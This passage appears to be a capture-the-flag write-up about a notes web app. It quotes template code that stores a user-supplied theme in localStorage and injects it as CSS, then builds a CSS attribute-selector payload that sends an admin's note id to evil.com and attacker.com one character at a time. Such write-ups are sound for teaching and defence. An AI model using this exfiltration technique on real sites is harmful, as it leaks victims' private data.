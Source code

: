 ```py
       </div>
   </div>


   <div class="note-content" id="note-content">
       <p>{{ note.content|safe }}</p>
   </div>
</div>
{% endblock %}
{% block scripts %}
<script src="{{ url_for('static', filename='js/options.js') }}"></script>
<script nonce="{{ nonce }}">
   if (options.custom_theme) {
       const style = document.createElement('style');
       style.textContent = document.getElementById('custom-theme-styles').textContent;
       style.nonce = '{{ nonce }}';
       document.head.appendChild(style);
       localStorage.setItem('custom_theme', style.textContent);
   }
</script>
{% endblock %}



   if (options.custom_theme) {
       const style = document.createElement('style');
       style.textContent = document.getElementById('custom-theme-styles').textContent;
       style.nonce = '{{ nonce }}';
       document.head.appendChild(style);
       localStorage.setItem('custom_theme', style.textContent);
   }
```

All textContent inside custom-theme-styles class will be stored into localstorage, and then in all template (base.html) will get that localStorage then append to a style
```html
       <script nonce="{{ nonce }}">
           const style = document.createElement('style');
           style.textContent = localStorage.getItem('custom_theme') || "";
           style.nonce = '{{ nonce }}';
           document.head.appendChild(style);
       </script>
```

Therefore we can leak admin note id 
Crafting CSS leak
CSS injection (or Cascading Style Sheets injection) can be abused to leak data from a page, especially when you can control some part of a CSS file or inject style rules into a page viewed by a victim. Let’s break down how this could apply to a link like: 
```html
<a href="/note/view/123456">Link</a>
```
CSS has selectors like:
```css
a[href*="123456"] { background-image: url("https://evil.com/leak?found=123456"); }
```
This triggers a request to evil.com if the page contains a link whose href contains the word 123456
Now we’re just craft 
```css
a[href^="/note/view/1"] { background-image: url("https://attacker.com/leak?c=1"); }
a[href^="/note/view/2"] { background-image: url("https://attacker.com/leak?c=2"); }
...
a[href^="/note/view/9"] { background-image: url("https://attacker.com/leak?c=9"); }
```
Make the admin view /dashboard